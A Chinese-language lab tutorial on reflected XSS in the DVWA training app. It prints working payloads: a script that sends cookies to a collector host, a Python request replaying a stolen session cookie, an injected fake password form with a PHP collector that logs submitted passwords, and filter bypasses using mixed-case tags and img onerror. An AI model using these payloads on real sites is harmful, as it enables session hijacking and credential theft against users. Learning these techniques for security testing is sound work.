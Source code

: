 [TOC]

# 反射型XSS

反射型XSS是最常用的，使用最广的一种方式。通过给受害者发送有恶意脚本代码参数的URL，当URL被打开时，特有的恶意代码参数被HTML解析、执行。



## low

低安全级别攻击

页面

![r_low3](img/r_low3.png)

源代码

![r_low0](img/r_low0.png)

显然，源程序中没有对用户输入进行任何过滤，直接进行解析显示，因此在输入框中输入以下代码，请求的链接为`http://dvwa.localhost/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%28%22hacked%22%29%3B%3C%2Fscript%3E#`，这是一个get型请求，可以看到用户输入附加在url的name后，反射回的页面会执行下面的代码。

```html
<script>alert("hacked");</script>
```

![r_low4](img/r_low4.png)

### cookie劫持

在输入框中输入：

```javascript
<script>
    var img = document.createElement("img");
    img.src = "http://csrf.localhost/log?" + escape(document.cookie);//img的src不重要
    alert(document.cookie);
</script>
```

这段代码在页面中插入了一张看不见的图片，同时把document.cookie作为参数发送给了远程服务器。

实际上`http://csrf.localhost/log?`并不一定要存在，`http://csrf.localhost`要存在(我是在本机运行的网站,配置过程在CSRF攻击中详细说明)，这个请求会在日志 `/var/log/apache2`中留下记录

![r_low2](img/r_low2.png)

也就是完成了一个简单的窃取用户Cookie，接下来可以利用窃取的cookie为所欲为，免密登陆用户账号，获取用户信息，例如使用python：

```python
import requests

header = {
    'Host': 'dvwa.localhost',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
    'X-Requested-With': 'XMLHttpRequest',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7,la;q=0.6',
    'Accept-Encoding': 'gzip, deflate, br',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://dvwa.localhost',
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36',
    'Connection': 'keep-alive',
    'Cookie': 'PHPSESSID=3oktmgk7tr1cuu6bddq8cae632; security=low',	//获取的用户cookie

}



url = "http://dvwa.localhost/index.php";


response = requests.post(url, headers = header)
print(response.text)
print(response.status_code)
```



### XSS钓鱼

大多数网站中“修改用户密码”的功能中，在提交新密码前，会要求用户输入旧密码，但这个旧密码一般是攻击者不知道的。为了获取密码，攻击者可以将XSS与“钓鱼”相结合。

思路其实很简单，利用js在当前页面上“伪造一个登陆框”，当用户在登录框中输入用户名与密码后，其密码将会被发送到攻击者的服务器上。

感觉更适合存储型XSS。

伪造输入框的内容

```javascript
<script >

    var parent=document.getElementById("main_body");
    var para=document.createElement("p");
    
    var node=document.createTextNode("原密码:");
    para.appendChild(node);
    parent.appendChild(para);
    
    var form0 = document.createElement("form");   
    form0.method = 'post';
    form0.action = 'http://csrf.localhost/hack.php';		//提交到攻击页面
    parent.appendChild(form0);
    
    var newElement = document.createElement("input");
    newElement.name = "oldpassword";
    newElement.type = "text";
    form0.appendChild(newElement);

   var newElement = document.createElement("input");

   newElement.type = "submit";
   form0.appendChild(newElement);


</script>
```

如果这个太长，也可以按照下述方式构造输入

```javascript
<script>
    
var parent = document.getElementById("main_body");
   var dd = document.createElement("div");
   parent.appendChild(dd);
   dd.innerHTML = '<p>原密码:</p>' + '<form action = "http://csrf.localhost/hack.php" method = "post">'+
                '<input type = "text" name="oldpassword">' +
                '<input type = "submit">' + '</form>';
</script>
```

用户输入以上代码（一般是诱使用户点击name字段为上述代码的链接，实际会伪装这个链接）

对应的链接为：

```
http://dvwa.localhost/vulnerabilities/xss_r/?name=%3Cscript%3E++++++var+parent+%3D+document.getElementById%28%22main_body%22%29%3B++++var+dd+%3D+document.createElement%28%22div%22%29%3B++++parent.appendChild%28dd%29%3B++++dd.innerHTML+%3D+%27%3Cp%3E%E5%8E%9F%E5%AF%86%E7%A0%81%3A%3C%2Fp%3E%27+%2B+%27%3Cform+action+%3D+%22http%3A%2F%2Fcsrf.localhost%2Fhack.php%22+method+%3D+%22post%22%3E%27%2B+++++++++++++++++%27%3Cinput+type+%3D+%22text%22+name%3D%22oldpassword%22%3E%27+%2B+++++++++++++++++%27%3Cinput+type+%3D+%22submit%22%3E%27+%2B+%27%3C%2Fform%3E%27%3B+%3C%2Fscript%3E#
```

![XSS1](img/XSS1.png)

输入后，xss反射，浏览器执行上述代码，添加一个form表单

![XSS2](img/XSS2.png)

钓鱼的demo攻击代码已经被注入，用户输入密码，点击提交，会提交到`hack.php`，并将密码保存到攻击者的服务器

```php
<?php

      $user=$_POST["oldpassword"]; //获取用户名

      $passtxt=fopen("passtxt.txt","a");  //打开文件
      fwrite($passtxt,"User:".$user."\n");  //写入文件
      fclose($passtxt);
      header("http://dvwa.localhost/vulnerabilities/xss_r/?name=#");  //转跳到正常页面 
     ?>
```





## 获取用户的浏览器

可以通过类似cookie劫持的方式将此信息发送到攻击者的服务器。攻击者如果知道了用户浏览器的信息，就可以实施一次精准的浏览器内存攻击。

```javascript
<script>
    alert(navigator.userAgent);
</script>
```



## medium

中级的代码对输入中的<script>替换成了空字符，但依然可以进行攻击

![r_medium0](img/r_medium0.png)



* 双写<script>

```javascript
<sc<script>ript>alert("hack")</script>
```

* 大小写混写

```javascript
<ScrIpt>alert("hack")</scRipT>
```



## high

源代码中使用正则表达式对输入进行过滤

![r_medium1](img/r_medium1.png)

使得双写、大小写混写不再有效，但是可以通过img、body等标签的事件或者iframe等标签的src注入恶意的js代码。

```
<img src=1 onerror=alert("hack")>
```


